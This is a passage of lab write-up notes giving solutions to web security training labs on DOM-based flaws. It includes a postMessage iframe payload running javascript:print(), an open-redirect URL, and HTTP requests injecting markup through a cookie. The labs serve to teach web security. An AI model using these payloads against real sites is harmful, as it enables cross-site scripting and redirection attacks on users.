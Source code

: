```
          ACMEplayer.element.style.width = d.width + "px";
          ACMEplayer.element.style.height = d.height + "px";
          break;
  }
}, false);
```

Solution:

```
<iframe src="https://0a81000203153730c071285d0006009f.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"url\":\"javascript:print()\",\"type\":\"load-channel\"}","*")'>
```

### Lab: DOM-based open redirection 

Source code reveals:

```
<div class="is-linkback">
    <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

Solution:

1. Set URL to https://0a7600420362243bc068fb3600ff00ab.web-security-academy.net/post?postId=4&url=https://exploit-0a9400a503ca24b9c0d0fbfb01ef0079.web-security-academy.net

2. Click on "Back to Blog"

### Lab: DOM-based cookie manipulation

GET /product?productId=19 HTTP/1.1
Host: 0abd003004e35b28c0b6e09400ae0077.web-security-academy.net
Cookie: session=EmjrI07hbqjMkXYXhmzJEXG1CrDNPKvG; lastViewedProduct=https://0abd003004e35b28c0b6e09400ae0077.web-security-academy.net/product?productId=asd
...

<header class="navigation-header">
    <section class="top-links">
        <a href=/>Home</a><p>|</p>
        <a href='asd'>Last viewed product</a><p>|</p>
    </section>
</header>

GET /product?productId=19 HTTP/1.1
Host: 0abd003004e35b28c0b6e09400ae0077.web-security-academy.net
Cookie: session=EmjrI07hbqjMkXYXhmzJEXG1CrDNPKvG; lastViewedProduct=asd'>lololol
...

<header class="navigation-header">
    <section class="top-links">
        <a href=/>Home</a><p>|</p>
        <a href='asd'>lololol'>Last viewed product</a><p>|</p>
    </section>
</header>
